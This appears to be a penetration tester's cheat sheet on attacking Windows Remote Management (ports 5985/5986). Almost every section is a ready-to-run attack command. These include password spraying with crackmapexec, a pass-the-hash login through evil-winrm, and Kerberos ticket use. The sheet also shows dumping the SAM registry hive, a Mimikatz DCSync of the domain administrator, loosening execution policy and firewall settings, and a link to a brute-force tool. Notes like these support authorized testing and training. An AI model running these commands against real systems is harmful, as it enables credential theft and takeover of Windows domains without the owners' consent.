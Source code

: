 # 5985, 5986 - WinRM

## evil-winrm

{% hint style="info" %}
use **menu** to list commands, a useful one is **services**
{% endhint %}

## Check valid credentials

```bash
crackmapexec winrm $IP -u $USERS_FILE -p $PASS --continue-on-success
```

## Pass the Hash

```bash
evil-winrm -u administrator -H 5b38382017f8c0ac215895d5f9aacac4 -i 172.16.1.5
```

[https://juggernaut-sec.com/pass-the-hash-attacks/](https://juggernaut-sec.com/pass-the-hash-attacks/)

## Kerberos auth

```sh
https://github.com/Hackplayers/evil-winrm#kerberos
sudo nvim /etc/krb5.conf
- Modify [libdefaults] 
- Also add the realm to [realms] both kdc and admin_server
- Just to be sure, add it to [domain-realms] as well

# Instead of editing the krb5.conf file manually, NetExec can generate it for us
nxc smb dc01.domain.com -k -u $USER -p $PASS --generate-krb5-file domain.krb5
sudo cp /etc/krb5.conf /etc/krb5.conf~
sudo cp domain.krb5 /etc/krb5.conf
# Obtain TGT and then use it on evil-winrm
KRB5CCNAME=user.ccache evil-winrm -i dc01.domain.com -r domain.com
```

## Unrestricted scripts / commands execution

{% code overflow="wrap" %}
```powershell
PowerUp → use downloadString to make it work appart from unrestricted execution policy
Set-ExecutionPolicy Unrestricted -Force
# To indicate our paths where we have PS scripts / exe binaries
-s, --scripts PS_SCRIPTS_PATH    Powershell scripts local path
-e, --executables EXES_PATH      C# executables local path
# Then on evil-winrm we type menu and since the app knows where PS/exes are we can execute them more easily
```
{% endcode %}

## Execute cmd commands on PS

```
cmd.exe /c reg save hklm\sam sam
PS> "binary.exe -p -l 455" | cmd
```

## Enable WinRM outside (AD/FW)

You can enable winrm but you will also need to allow it on the firewall and then also change the trusted hosts to be \* to allow IP addresses external of the network to connect.

## Mimikatz

```powershell
PS> .\mimikatz 'lsadump::dcsync /domain:.LOCAL /user:administrator' exit
```

## 5986 - WinRM (SSL)

```bash
# log in using evil-winrm (note port is 5986) and providing the public key (in this case the certificate key) and the private key
└─$ evil-winrm -i 10.10.10.10 -c pub-key.pem -k priv-key.pem -S -r domain.com -P 5986

# Authenticate against port 5986 (SSL)
evil-winrm -i 10.10.10.10 -u Administrator -p '$PASS' -S
```

## Bruteforce

```bash
https://github.com/yok4i/winrm-brute
# (check first if we have tried some creds with cme)
```
